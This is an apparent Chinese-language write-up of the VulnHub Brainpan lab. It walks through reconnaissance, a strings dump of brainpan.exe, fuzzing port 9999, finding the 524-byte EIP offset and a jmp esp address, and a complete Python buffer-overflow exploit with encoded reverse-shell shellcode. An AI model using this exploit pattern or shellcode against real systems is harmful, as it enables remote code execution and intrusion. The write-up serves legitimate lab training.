https://download.vulnhub.com/brainpan/Brainpan.zip
netdiscover命令查找靶机的IP
使用nmap查看靶机开放了那些端口
nc 9999端口，拒绝访问

10000端口是个HTTP服务器，浏览器打开

没看到有什么东西，目录爆破一下。找到了一个bin目录
下载这个exe文件，查看信息。
root@kali:~# file brainpan.exe brainpan.exe: PE32 executable (console) Intel 80386 (stripped to external PDB), for MS Windows root@kali:~# strings brainpan.exe This program cannot be run in DOS mode. .text `.data .rdata @.bss .idata [^_] AAAA AAAA AAAA AAAA AAAA AAAA AAAA AAAA [^_] [get_reply] s = [%s] [get_reply] copied %d bytes to buffer shitstorm _| _| _|_|_| _| _|_| _|_|_| _|_|_| _|_|_| _|_|_| _|_|_| _| _| _|_| _| _| _| _| _| _| _| _| _| _| _| _| _| _| _| _| _| _| _| _| _| _| _| _| _| _|_|_| _| _|_|_| _| _| _| _|_|_| _|_|_| _| _| _| _| [________________________ WELCOME TO BRAINPAN _________________________] ENTER THE PASSWORD >> ACCESS DENIED ACCESS GRANTED [+] initializing winsock... [] winsock init failed: %d done. [] could not create socket: %d [+] server socket created. [] bind failed: %d [+] bind done on port %d [+] waiting for connections. [+] received connection. [+] check is %d [] accept failed: %d [+] cleaning up. -LIBGCCW32-EH-3-SJLJ-GTHR-MINGW32 w32_sharedptr->size == sizeof(W32_EH_SHARED) ../../gcc-3.4.5/gcc/config/i386/w32-shared-ptr.c GetAtomNameA (atom, s, sizeof(s)) = 0 AddAtomA ExitProcess FindAtomA GetAtomNameA SetUnhandledExceptionFilter __getmainargs __p__environ __p__fmode __set_app_type _assert _cexit _iob _onexit _setmode abort atexit free malloc memset printf signal strcmp strcpy strlen WSACleanup WSAGetLastError WSAStartup accept bind closesocket htons listen recv send socket KERNEL32.dll msvcrt.dll WS2_32.DLL .file crt1.c _atexit __onexit .text .data .bss .file crtstuff.c .text .data .bss .file brainpan.c _main .text .data .bss .rdata .text .data .bss .idata$7 .idata$5h .idata$4 .idata$6 .text .data .bss .idata$7 .idata$5| .idata$4 .idata$6 .text .data .bss .idata$7 .idata$5 .idata$4 .idata$6 .text .data .bss .idata$7 .idata$5 .idata$4 .idata$6& .text .data .bss .idata$7 .idata$5t .idata$4 .idata$6 .text .data .bss .idata$7 .idata$5 .idata$4 .idata$6 .text .data .bss .idata$7 .idata$5x .idata$4 .idata$6 .text .data .bss .idata$7 .idata$5 .idata$4 .idata$6 .text .data .bss .idata$7 .idata$5 .idata$4 .idata$6. .text .data .bss .idata$7 .idata$5l .idata$4 .idata$6 .text .data .bss .idata$7 .idata$5p .idata$4 .idata$6 .file fake hname fthunk .text .data .bss .idata$2( .idata$5d .idata$4 .file fake .text .data .bss .idata$4 .idata$5 .idata$7 .file CRTglob.c .text .data .bss .file CRTfmode.c .text .data .bss .file txtmode.c .text .data .bss .file gccmain.c ___main .text .data .bss .file pseudo-reloc.c .text .data .bss .file cpu_features.c .text .data .bss .file CRT_fp10.c _fpreset@ .text .data .bss .file .text .data .bss .text .data .bss .rdata probe done .text .data .bss .text .data .bss .text .data .bss .idata$7t .idata$5, .idata$4 .idata$6@ .text .data .bss .idata$7h .idata$5 .idata$4| .idata$6 .text .data .bss .idata$7 .idata$5< .idata$4 .idata$6f .text .data .bss .idata$7x .idata$50 .idata$4 .idata$6H .text .data .bss .idata$7p .idata$5( .idata$4 .idata$66 .text .data .bss .idata$7` .idata$5 .idata$4t .idata$6 .text .data .bss .idata$7 .idata$5P .idata$4 .idata$6 .text .data .bss .idata$7d .idata$5 .idata$4x .idata$6 .text .data .bss .idata$7| .idata$54 .idata$4 .idata$6R .text .data .bss .idata$7\ .idata$5 .idata$4p .idata$6 .text .data .bss .idata$7 .idata$5H .idata$4 .idata$6 .text .data .bss .idata$7 .idata$5T .idata$4 .idata$6 .text .data .bss .idata$7 .idata$5\ .idata$4 .idata$6 .text .data .bss .idata$7 .idata$5X .idata$4 .idata$6 .text .data .bss .idata$7 .idata$5L .idata$4 .idata$6 .text .data .bss .idata$7l .idata$5$ .idata$4 .idata$6, .text .data .bss .idata$7 .idata$5@ .idata$4 .idata$6p .text .data .bss .idata$7 .idata$5D .idata$4 .idata$6x .text .data .bss .idata$7 .idata$58 .idata$4 .idata$6^ .file fake hname fthunk .text .data .bss .idata$2 .idata$5 .idata$4l .file fake .text .data .bss .idata$4 .idata$5` .idata$7 .text .data .bss .idata$7< .idata$5 .idata$4X .idata$6 .text .data .bss .idata$7H .idata$5 .idata$4d .idata$6 .text .data .bss .idata$7D .idata$5 .idata$4` .idata$6 .text .data .bss .idata$7@ .idata$5 .idata$4\ .idata$6 .text .data .bss .idata$78 .idata$5 .idata$4T .idata$6 .file fake hname fthunk .text .data .bss .idata$2 .idata$5 .idata$4P .file fake .text .data .bss .idata$4h .idata$5 .idata$7L .file crtstuff.c .text .data .bss .ctors __cexit _free _strcmp _recv@16 _bind@120 __dll__ _memset __argc _send@16 __allocap __argv __fmode __end__ _signal _malloc _strcpy _abort _htons@48 _strlen _printf __assert __gnu_exception_handler@4 ___mingw_CRTStartup _mainCRTStartup _WinMainCRTStartup ___do_sjlj_init _winkwink _get_reply _initialized ___do_global_dtors ___do_global_ctors __pei386_runtime_relocator ___cpu_features_init __fpreset pseudo-reloc-list.c _w32_atom_suffix ___w32_sharedptr_default_unexpected ___w32_sharedptr_get dw2_object_mutex.0 dw2_once.1 sjl_fc_key.2 sjl_once.3 eh_globals_static.4 eh_globals_key.5 eh_globals_once.6 ___w32_sharedptr_initialize ___sjlj_init_ctor ___RUNTIME_PSEUDO_RELOC_LIST__ __imp___setmode __data_start__ ___DTOR_LIST__ __imp__bind@12 __imp__recv@16 __imp___onexit ___p__fmode _SetUnhandledExceptionFilter@4 ___w32_sharedptr_terminate ___tls_start__ __libmsvcrt_a_iname __imp__FindAtomA@4 __imp__abort __size_of_stack_commit__ __size_of_stack_reserve__ __major_subsystem_version__ ___crt_xl_start__ _AddAtomA@4 ___crt_xi_start__ ___chkstk ___crt_xi_end__ __imp____p__environ __imp___iob __bss_start__ __head_libws2_32_a ___RUNTIME_PSEUDO_RELOC_LIST_END__ __size_of_heap_commit__ __imp__listen@8 ___p__environ ___crt_xp_start__ ___crt_xp_end__ __imp__signal __minor_os_version__ __imp__atexit __head_libmsvcrt_a _accept@12 __image_base__ __imp__accept@12 __section_alignment__ _socket@12 __RUNTIME_PSEUDO_RELOC_LIST__ __imp__htons@4 __imp____p__fmode _ExitProcess@4 __data_end__ ___getmainargs ___w32_sharedptr __CTOR_LIST__ ___set_app_type __bss_end__ __CRT_fmode ___crt_xc_end__ __imp__WSAGetLastError@0 ___crt_xc_start__ __imp__socket@12 __imp__closesocket@4 ___CTOR_LIST__ __imp__GetAtomNameA@12 _WSAStartup@8 __imp__strcmp __file_alignment__ __imp__malloc __major_os_version__ __imp___assert __DTOR_LIST__ __imp__memset _WSAGetLastError@0 __size_of_heap_reserve__ ___crt_xt_start__ __subsystem__ __imp__strlen __imp__strcpy ___w32_sharedptr_unexpected __imp____getmainargs _listen@8 ___tls_end__ __imp__ExitProcess@4 __imp__WSACleanup@0 __imp__send@16 ___cpu_features __imp__free __imp__SetUnhandledExceptionFilter@4 __major_image_version__ __loader_flags__ __CRT_glob __setmode __imp__printf __imp__AddAtomA@4 __head_libkernel32_a __imp___cexit __minor_subsystem_version__ __minor_image_version__ _closesocket@4 __imp____set_app_type _FindAtomA@4 __imp__WSAStartup@8 _WSACleanup@0 _GetAtomNameA@12 __RUNTIME_PSEUDO_RELOC_LIST_END__ __libkernel32_a_iname ___crt_xt_end__ __libws2_32_a_iname
看到strcpy这个函数，可能存在缓冲区溢出漏洞
在XP系统上面使用ImmunityDebugger进行调试，点击运行按钮

payload
root@kali:~# cat fuzz.py import sys,socket victim = '192.168.0.103' port = 9999 payload = "\x41" * 1000 s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) try: print "[-] Connecting to " + str(victim) s.connect((victim, port)) s.recv(1024) # Send payload print "[-] Sending payload.... ", s.send(payload) print "Done" except: print "[-] Unable to connect to " + str(victim) sys.exit(0)
运行py
下一步，我们需要多少字节来填充缓冲区才能让我们进入eip？创造测试字符串

payload

我们可以看到EIP的位置已经被35724134覆盖了
 我们将其推入Metasploit的模式偏移工具，它将为我们提供我们需要发送到缓冲区以控制的字节数eip

我们发送524个”A”，4个”B”和1000个”C”，看看什么效果
import socket,sys junk = "\x41"*524 eip = "\x42"*4 shellcode = "\x43"*1000 payload = junk+eip+shellcode s = socket.socket(socket.AF_INET,socket.SOCK_STREAM) try: s.connect(('192.168.2.14',9999)) # IP of WinXP SP3 machine running brainpan.exe except: print "[-] Connection failed Noob" sys.exit(0) s.recv(1024) s.send(payload)
在EIP那里有4个42，被字符”B”填充了
让我们看看我们是否能找到jmp esp函数的地址。在Immunity Debugger中，使用ctrl-f并输入搜索jmp esp。正如您在下面看到的，我们的第一个地址jmp esp是311712F3重新运行程序
生成反弹shell
payload
root@kali:~# cat fuzz.py import sys,socket victim = '192.168.0.101' port = 9999 junk = "\x41" * 524 eip = "\xf3\x12\x17\x31" #jmp esp 311712F3 brainpan.exe shellcode = "\x90" * 50 buf = "" buf += "\xd9\xc5\xd9\x74\x24\xf4\xb8\x1e\xc6\x68\xe1\x5d\x31" buf += "\xc9\xb1\x52\x83\xc5\x04\x31\x45\x13\x03\x5b\xd5\x8a" buf += "\x14\x9f\x31\xc8\xd7\x5f\xc2\xad\x5e\xba\xf3\xed\x05" buf += "\xcf\xa4\xdd\x4e\x9d\x48\x95\x03\x35\xda\xdb\x8b\x3a" buf += "\x6b\x51\xea\x75\x6c\xca\xce\x14\xee\x11\x03\xf6\xcf" buf += "\xd9\x56\xf7\x08\x07\x9a\xa5\xc1\x43\x09\x59\x65\x19" buf += "\x92\xd2\x35\x8f\x92\x07\x8d\xae\xb3\x96\x85\xe8\x13" buf += "\x19\x49\x81\x1d\x01\x8e\xac\xd4\xba\x64\x5a\xe7\x6a" buf += "\xb5\xa3\x44\x53\x79\x56\x94\x94\xbe\x89\xe3\xec\xbc" buf += "\x34\xf4\x2b\xbe\xe2\x71\xaf\x18\x60\x21\x0b\x98\xa5" buf += "\xb4\xd8\x96\x02\xb2\x86\xba\x95\x17\xbd\xc7\x1e\x96" buf += "\x11\x4e\x64\xbd\xb5\x0a\x3e\xdc\xec\xf6\x91\xe1\xee" buf += "\x58\x4d\x44\x65\x74\x9a\xf5\x24\x11\x6f\x34\xd6\xe1" buf += "\xe7\x4f\xa5\xd3\xa8\xfb\x21\x58\x20\x22\xb6\x9f\x1b" buf += "\x92\x28\x5e\xa4\xe3\x61\xa5\xf0\xb3\x19\x0c\x79\x58" buf += "\xd9\xb1\xac\xcf\x89\x1d\x1f\xb0\x79\xde\xcf\x58\x93" buf += "\xd1\x30\x78\x9c\x3b\x59\x13\x67\xac\xa6\x4c\x67\x46" buf += "\x4f\x8f\x67\x87\xd3\x06\x81\xcd\xfb\x4e\x1a\x7a\x65" buf += "\xcb\xd0\x1b\x6a\xc1\x9d\x1c\xe0\xe6\x62\xd2\x01\x82" buf += "\x70\x83\xe1\xd9\x2a\x02\xfd\xf7\x42\xc8\x6c\x9c\x92" buf += "\x87\x8c\x0b\xc5\xc0\x63\x42\x83\xfc\xda\xfc\xb1\xfc" buf += "\xbb\xc7\x71\xdb\x7f\xc9\x78\xae\xc4\xed\x6a\x76\xc4" buf += "\xa9\xde\x26\x93\x67\x88\x80\x4d\xc6\x62\x5b\x21\x80" buf += "\xe2\x1a\x09\x13\x74\x23\x44\xe5\x98\x92\x31\xb0\xa7" buf += "\x1b\xd6\x34\xd0\x41\x46\xba\x0b\xc2\x76\xf1\x11\x63" buf += "\x1f\x5c\xc0\x31\x42\x5f\x3f\x75\x7b\xdc\xb5\x06\x78" buf += "\xfc\xbc\x03\xc4\xba\x2d\x7e\x55\x2f\x51\x2d\x56\x7a" payload = junk + eip + shellcode + buf print(payload) s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) try: print "[-] Connecting to " + str(victim) s.connect((victim, port)) s.recv(1024) # Send payload print "[-] Sending payload.... ", s.send(payload) print "Done" except: print "[-] Unable to connect to " + str(victim) sys.exit(0)
监听shell

连接到windows机器
上面的是windows的shell，重新生成linux
再将上面的buf修改一下就行
